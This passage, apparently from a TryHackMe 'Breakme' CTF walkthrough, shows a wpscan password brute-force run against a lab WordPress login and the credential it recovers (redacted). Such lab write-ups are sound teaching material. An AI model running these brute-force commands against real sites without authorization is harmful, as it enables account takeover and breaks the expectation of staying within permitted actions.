 The enumeration was successful and we found two valid usernames. We can attempt a password brute force attack using these usernames. 
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Breakme/Scans/Web]
└─$ echo "bob\nadmin" > ../../Misc\ File/usernames.txt   

┌──(pentester㉿kali)-[~/…/TryHackMe/Breakme/Scans/Web]
└─$wpscan -U ../../Misc\ File/usernames.txt -P /usr/share/wordlists/seclists/Passwords/probable-v2-top207.txt --url http://10.10.64.230/wordpress/ 
<SNIP>

[+] Performing password attack on Wp Login against 2 user/s
[SUCCESS] - bob / <REDACTED>

Trying admin / casper Time: 00:00:17 <=======================================================================                                             > (347 / 554) 62.63%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: bob, Password: <REDACTED>

<SNIP>
[+] Memory used: 265.699 MB
[+] Elapsed time: 00:00:26     
```

The password brute force attack was successful and we have obtained Bob's password. we can use this password to log into the WordPress instance.
![](/assets/img/posts/walthrough/tryhackme/2024-09-27-breakme/wordpress-login.png){: .center}
